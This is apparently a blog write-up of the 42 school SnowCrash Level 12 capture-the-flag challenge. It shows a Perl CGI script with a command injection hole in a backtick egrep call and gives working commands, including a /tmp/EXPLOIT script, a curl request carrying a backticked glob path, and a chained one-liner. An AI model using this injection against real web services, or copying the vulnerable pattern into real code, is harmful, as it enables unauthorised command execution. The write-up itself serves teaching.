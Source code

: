 ```yaml
---
title: 42 SnowCrash Level12 - Walkthrough 👽 
tags:
  - ctf
  - 42project
  - snowcrash
  - command-injection
  - perl
  - cgi
categories:
  - ctfs
  - 42project
date: 2024-05-19 15:06:08
---
```


![snowcrash](/images/snowcrash.png)

## Introduction

In Level 12 of the SnowCrash project by 42 school, you are presented with a Perl script running a CGI Web Server on port 4646. Below is the script:

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}
```

### Vulnerability Analysis

The script contains a critical vulnerability in the following line:

```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

This line executes a system command using backticks. The variable $xx is taken from user input, which makes the script susceptible to command injection attacks.

### Input Sanitization

Before the command is executed, all lowercase letters in $xx are converted to uppercase:

```perl
$xx =~ tr/a-z/A-Z/;
```

Additionally, if a space is present in the input, everything after the space will be discarded:

```perl
$xx =~ s/\s.*//;
```

### Exploitation

Given the vulnerability, an attacker can inject arbitrary commands by manipulating the input. Here is a step-by-step explanation of how to exploit this vulnerability:

1. Create a Malicious Script: Write a script that will be executed on the server.

```sh
echo "getflag > /tmp/lvl12flag" > /tmp/EXPLOIT
chmod +x /tmp/EXPLOIT
```

2. Trigger the Vulnerability: Use curl to send a crafted request to the vulnerable server.

```sh
curl 'localhost:4646?x=`/*/EXPLOIT`'
```

3. Retrieve the Flag: The command in the malicious script will be executed, writing the flag to /tmp/lvl12flag. Read the flag using:

```sh
cat /tmp/lvl12flag
```

### Complete Exploit Command

The entire exploitation process can be executed with a single command:

```sh
echo "getflag > /tmp/lvl12flag" > /tmp/EXPLOIT; chmod +x /tmp/EXPLOIT && curl 'localhost:4646?x=`/*/EXPLOIT`'; cat /tmp/lvl12flag
```

By running this command, you can successfully exploit the vulnerability and retrieve the flag.

## Conclusion

This level demonstrates the importance of proper input sanitization and the risks associated with executing user input as system commands. Always ensure to validate and sanitize inputs to prevent command injection vulnerabilities.
